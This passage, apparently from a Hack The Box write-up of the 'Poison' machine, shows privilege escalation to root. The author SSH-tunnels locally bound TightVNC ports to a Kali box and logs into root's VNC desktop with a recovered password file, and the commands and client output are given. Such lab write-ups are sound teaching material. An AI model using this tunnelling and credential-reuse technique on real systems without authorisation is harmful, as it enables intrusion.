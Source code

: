Most interestingly, the `Xvnc` service was listeningo on ports 5901 and 5801. Port 5901 was the TightVNC service, and port 5801 was the TightVNC web service.
Since these services were listening locally, I was able to port-forward them to access them from my Kali machine.

```bash
ssh -N -L 127.0.0.1:5901:127.0.0.1:5901 -L 127.0.0.1:5801:127.0.0.1:5801 charix@10.10.10.84
```

After port forwarding both ports, I was able to login to root's TightVNC session leveraging the encoded TightVNC password:

```
$ vncviewer 127.0.0.1:5901 -passwd /home/kali/htb/machines/poison/privesc/secret
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

From here, I took over an xterm console on the desktop running as root:

![](/assets/images/htb-poison/poison-tight-vnc-window.png)

## Extra
